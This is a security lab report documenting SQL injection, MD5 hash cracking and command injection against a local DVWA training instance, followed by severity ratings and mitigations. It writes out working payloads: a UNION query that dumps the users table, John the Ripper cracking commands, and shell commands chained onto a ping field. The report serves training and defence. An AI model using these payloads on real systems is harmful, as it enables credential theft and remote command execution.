 # Lab Report — Accessing Admin Panel (DVWA)

**Author:** [Matthew Chidiebere Chukwuorji]  
**Date:** 2025-09-12  
**Target:** DVWA (Damn Vulnerable Web Application) running locally on Kali (`http://127.0.0.1/dvwa`)  
**Scope:** Local lab / authorized testing only

---

## 1. Objective
Demonstrate exploitation techniques (SQL Injection and Command Injection) on a controlled DVWA instance to access the admin panel, extract credentials, and demonstrate remote command execution as the web user.

---

## 2. Environment
- Host OS: Kali Linux (local VM)  
- Application: DVWA (installed at `/var/www/html/dvwa`)  
- Services: Apache2, MySQL  
- DVWA Security level: **Low**

---

## 3. Vulnerabilities Identified
1. **SQL Injection — Authentication & Data Exfiltration (High)**  
   - Unsanitized input allowed injection and `UNION` queries to enumerate and exfiltrate data from the `users` table.

2. **Command Injection — Remote Command Execution (High)**  
   - The ping/host input was passed to a shell enabling arbitrary command execution as the web server user.

3. **Weak Password Storage — MD5 (High)**  
   - Passwords were stored using MD5 which facilitated rapid cracking of extracted password hashes.

---

## 4. Steps Performed (reproducible)
> Ensure DVWA is running locally and Security = Low.

### A. Verify SQL Injection
1. DVWA → **SQL Injection** lab.  
2. Input: 1' OR '1'='1
3. Result: Multiple rows returned confirming SQL injection.
   1. Screenshot: 'screenshots/SQL_Injection.png'

   ### B. Extract credentials via UNION
1. SQLi lab input: ' UNION SELECT user, password FROM users#
2. Result: Returned rows containing `user` and `password` (hashes or plaintext). Saved the hash to `hashes.txt`.
   1. Screenshot: 'screenshots/sql.png'

### C. Crack MD5 hashes
1. save the hash
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hashes.txt

### crack with John (MD5)
1. sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hashes.txt
2. sudo john --show --format=raw-md5 hashes.txt
Result: cracked passwords saved

### D. Command Injection Payloads
1. 127.0.0.1 && uname -a- show OS info
2. 127.0.0.1 && id - show effective user
3. 127.0.0.1 && ls -la /var/www/html - list webroot directory

## 5. Severity
1. SQL Injection: High (direct access to sensitive data and authentication bypass).
2. Command Injection: High (remote command execution).
3. MD5 password storage: High (practical to crack weak passwords).
4. Overall risk: High for a production system

## 6. Impact

1.Full disclosure of user credentials (including admin).

2. Unauthorized administrative access to web app (dashboard).

3. Data exfiltration, account takeover, and lateral movement potential.

4. Remote command execution as web user — may enable privilege escalation.

5. Business impact: Severe (data breach, regulatory risk, reputational/financial loss).

6. Availability: Medium (attacker could deface or disrupt services).

7. Integrity: High (attacker can modify or delete data).

8. Confidentiality: High (attacker can access admin-only data).

## 7. Mitigation & Recommendations

### Immediate

1. Harden deployment (remove test pages), keep DVWA off public networks, and enforce rate-limiting/account lockout.

2. Replace MD5-stored passwords and force resets if this were production.

### Developer / code changes

1. Use parameterized queries / prepared statements (no string concatenation).

2. Never pass raw user input to shell commands; use safe libraries/APIs and strict whitelists (e.g., IPv4 regex).

3. Migrate password storage to bcrypt/Argon2 with per-user salts and proper cost factor.

4. Ensure DB accounts are least-privilege.

### Operational

1. Deploy a WAF to detect/block SQLi/command injection patterns.

2. Enable logging, monitoring, and alerting for suspicious activity.

3. Schedule SAST/DAST scans and developer secure-coding training 

## 8. Ethics & Notes

All testing and evidence were produced on a local DVWA instance under my control. Do not run these tests against systems you do not own or have explicit written permission to test.

## Screenshots

![Photo of John the Ripper](Screenshots/john.png)




